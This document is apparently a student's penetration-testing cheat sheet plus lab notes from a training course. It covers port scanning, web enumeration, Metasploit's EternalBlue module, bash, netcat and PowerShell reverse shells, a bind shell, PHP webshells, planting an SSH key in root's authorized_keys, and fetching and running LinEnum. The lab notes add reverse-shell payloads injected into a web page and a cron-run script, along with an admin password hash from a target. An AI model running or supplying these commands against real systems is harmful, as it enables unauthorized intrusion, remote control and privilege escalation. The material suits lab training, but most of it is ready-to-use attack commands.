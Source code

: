 # GettingStarted (Complete)

## Basic Tools 
> - **Connect to VPN **  sudo openvpn user.ovpn   
> - **Connect to FTP **  ftp 10.0.0.0   
> - **Connect to SSH **  ssh user@10.0.0.0   


    
## Service Scanning 
> - **Run an nmap script scan on an IP **  nmap -sV -sC -p- 10.0.0.0   
> - **Grab banner of an open port **  netcat 10.10.10.10 22   
> - **List SMB Shares **  smbclient -N -L \\\\10.129.42.253   
> - **Connect to a SMB Share **  smbclient \\\\10.129.42.253\\users
> - **Grab banner of an open port **  netcat 10.10.10.10 22
> - **Grab banner of an open port **  netcat 10.10.10.10 22


   
  
## WEB Enumb
> - **scan web directories** gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt
> - **scan sub directories of a website** gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt
> - **List potential directories** curl 10.10.10.121/robots.txt
> - **grab website banner** curl -IL https://www.inlanefreight.com
> - **List details about webserver/certs** whatweb 10.10.10.121 or whatweb --no-errors 10.10.10.0/24


    

## Exploit Scan
> - **Install exploitdb tool** sudo apt install exploitdb -y
> - **Search for public exploits for a web application** searchsploit openssh 7.2
### Metasploit
Metasploit Framework (MSF) contains exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets
> - **MSF: Start the Metasploit Framework** msfconsole
> - **Search for public exploits in MSF** search exploit eternalblue
> - **Start using an MSF module** use exploit/windows/smb/ms17_010_psexec
> - **Show required options for an MSF module** show options
> - **Set a value for an MSF module option** set RHOSTS 10.10.10.40
> - **Test if the target server is vulnerable** check
> - **Run the exploit on the target server is vulnerable** exploit
     
    

## Using Shells
netcat can be used to connect to any listening port and interact with the service running on that port.
> - **Start a nc listener on a local port (on my computer)** nc -lvnp 1234  or   nc 10.10.10.1 1234
> - **Send a reverse shell from the remote server** bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
> - **Another reverse shell from the remote server** rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
> - **Start a bind shell on the remote server** rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
> - **same as above but with powershell** powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
> - **Connect to a bind shell started on the remote server (on my computer)** nc 10.10.10.1 1234
>
> - **Upgrade shell TTY (1)** python -c 'import pty; pty.spawn("/bin/bash")'
> - **Upgrade shell TTY (2)** ctrl+z then stty raw -echo then fg then enter twice
> - **Create a webshell php file** echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php
> - Apache	/var/www/html/   Nginx	/usr/local/nginx/html/   IIS	c:\inetpub\wwwroot\   XAMPP	C:\xampp\htdocs\
> - **Execute a command on an uploaded webshell** curl http://SERVER_IP:PORT/shell.php?cmd=id or go to browser http://SERVER_IP:PORT/shell.php?cmd=id
   

## Privilege Escalation
> - **Run linpeas script to enumerate remote server** ./linpeas.sh
> - **Test if sudo** sudo -l     or   sudo -u user /bin/echo Hello World!   or    sudo su -
> - Try find accounts via /etc/crontab     /etc/cron.d      /var/spool/cron/crontabs/root    /etc/passwd   etc.
> - **SSH in**
> - **Create key** ssh-keygen -f key   
> - **apply key to user** echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys   
> - **SSH to server** ssh root@10.10.10.10 -i key   
   



## Transfer Files
> - **Start local web server** python3 -m http.server 8000
> - **Download a file on the remote server from our local machine** wget http://10.10.14.1:8000/linenum.sh
> - **Download a file on the remote server from our local machine** curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
> - **Transfer a file to the remote server with scp (requires SSH access)** scp linenum.sh user@remotehost:/tmp/linenum.sh
> - **Do It via BASE64**
> - **Convert a file to base64** base64 file -w 0     check it via md5sum shell
> - **Convert a file from base64 back to its orig** echo f0VMR...SNIO...InmDwU | base64 -d > shell
> - user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > file



### Useful Links













  install seclists = git clone https://github.com/danielmiessler/SecLists && sudo apt install seclists -y
  Next, add a DNS Server such as 1.1.1.1 to the /etc/resolv.conf file.
  > 


  

  
##########################################################################################


  

nmap -sV --open -oA nibbles_initial_scan <ip address>
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.190
nc -nv 10.129.42.190 22
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190 
whatweb 10.129.42.190


gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.246 9443 >/tmp/f"); ?>
nc -lvnp 9443
python -c 'import pty; pty.spawn("/bin/bash")'
 python3 -c 'import pty; pty.spawn("/bin/bash")'


unzip personal.zip
cat monitor.sh
sudo python3 -m http.server 8080
wget http://<your ip>:8080/LinEum.sh
chmod +x LinEnum.sh
./LinEnum.sh


https://github.com/vanhauser-thc/thc-hydra
https://github.com/digininja/CeWL
https://highon.coffee/blog/reverse-shell-cheat-sheet/!

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9443 >/tmp/f"); ?>
nc -lvnp 9443
navigate to the webfile and should get a hit on the listner as shell
upgrade to nicer shell via which python3 commmand
python -c 'import pty; pty.spawn("/bin/bash")' OR python -c 'import pty; pty.spawn("/bin/bash")' OR python3 -c 'import pty; pty.spawn("/bin/bash")'
to enumerate priv esculations run this while listening - sudo python3 -m http.server 8080
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Back on the target type wget http://<your ip>:8080/LinEum.sh to download the script
Once the script is pulled over, type chmod +x LinEnum.sh to make the script executable and then type ./LinEnum.sh to run it.
modify monitor.py script to add line at the end
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 8443 >/tmp/f' | tee -a monitor.sh


10.129.42.249 target
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
/theme
/data
/backups
{"status":"0","latest":"3.3.16","your_version":"3.3.15","message":"You have an old version - please upgrade"}
10.10.15.24 me
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
<EMAIL>admin@gettingstarted.com</EMAIL>

nmap -sV --open -oA nibbles_initial_scan 10.129.42.249 
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.249 

nc -nv 10.129.42.249 22
nc -nv 10.129.42.249 80

nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.249
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.249

+whatweb 10.129.42.249
+gobuster dir -u http://10.129.42.249/data/ --wordlist /usr/share/dirb/wordlists/common.txt

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.129.42.249 4444 >/tmp/f"); ?>
